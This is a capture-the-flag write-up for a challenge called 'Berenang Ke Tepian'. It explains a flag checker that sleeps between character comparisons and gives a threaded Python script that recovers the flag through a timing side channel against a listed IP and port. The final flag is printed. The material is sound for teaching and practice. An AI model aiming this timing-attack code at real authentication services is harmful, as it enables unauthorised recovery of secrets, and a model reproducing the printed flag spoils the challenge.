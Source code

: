 # Berenang Ke Tepian 🔧
## Description
> Berakit, berakitlah ke hulu Berenang, berenangku ke tepian Bersakit, biar kusakit dahulu Bersenang denganmu kemudian
> 
> Kelip-kelip kusangkakan api Sinar matahari membawa cahaya Kau hilang ghaib, sangkaku kaubenci Kiranya sengaja nak menduga
> 
> Connection 1: nc 103.28.91.24 10021
> 
> Connection 2: nc 103.28.91.24 10025
## Challenge Overview

`retrieve_flag` function checks if the input string matches the flag. It compares each character and returns 1 if the full string is correct, or 0 if incorrect. It also sleeps for 100,000 microseconds (0.1 seconds) between comparisons.

The `main` function reads a password from the user, checks it using `retrieve_flag()`, and prints whether the flag is correct or not. 

The challenge wants us to discover a flag by exploiting a timing-based side channel in a server response. The server takes different amounts of time to respond based on the validity of the input, allowing you to deduce correct characters of the flag by measuring these response times.

## Solution
```py
import time
import socket
import threading
from collections import defaultdict

# Connection function
def connect_to_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("103.28.91.24", 10025))
    return s

# Measure time function
def measure_time(s, guess):
    s.recv(1024)  # Ensure we're starting with fresh communication
    start_time = time.time()
    s.sendall(guess.encode())
    response = s.recv(1024)
    end_time = time.time()
    return end_time - start_time, response

# Test character function
def test_char(char, flag, result_dict, index):
    guess = flag + char
    s = connect_to_server()
    duration, _ = measure_time(s, guess)
    s.close()
    
    # Check if the guess is correct based on response duration
    is_correct = duration > 0.1 * len(guess)
    result_dict[index] = (char, is_correct, duration)

# Find flag function
def find_flag():
    flag = "3108{s"
    allowed_chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_"
    
    while True:
        threads = []
        result_dict = {}
        
        # Create and start threads for each character
        for index, char in enumerate(allowed_chars):
            thread = threading.Thread(target=test_char, args=(char, flag, result_dict, index))
            thread.start()
            threads.append(thread)
        
        # Wait for all threads to finish
        for thread in threads:
            thread.join()
        
        # Process results
        found = False
        for char, is_correct, duration in sorted(result_dict.values(), key=lambda x: x[1], reverse=True):
            if is_correct:
                flag += char
                found = True
                print(f"Updated flag: {flag}")
                break  # Move to the next character after finding a valid one
        
        if not found:
            print("No valid character found in this pass. Exiting...")
            break  # Exit if no valid characters were found in a complete pass
    
    return flag

if __name__ == "__main__":
    start_time = time.time()
    flag = find_flag()
    end_time = time.time()
    print(f"Flag found: {flag}")
    print(f"Total time taken: {end_time - start_time:.2f} seconds")
```
### Explanation 
1. `measure_time()`: Measures the time taken by the server to respond to a guess. 
2. `test_char()`: Tests whether a particular character is valid by appending it to the current flag and measuring the response time. It then stores the result, including the character, its validity, and response duration, in a shared dictionary.
3. Validity Check: Determines if a character is correct based on whether the response time:
    -  True: `duration > 0.1 * len(guess)`
    -  False: `duration < 0.1 * len(guess)`
4. Flag Update: If a valid character is found, it's added to the current flag, and the process repeats to find the next character. The script continues until no valid characters are found in a complete pass.

## Flag
```
3108{s1mpl3_p3ngundur4n}
```

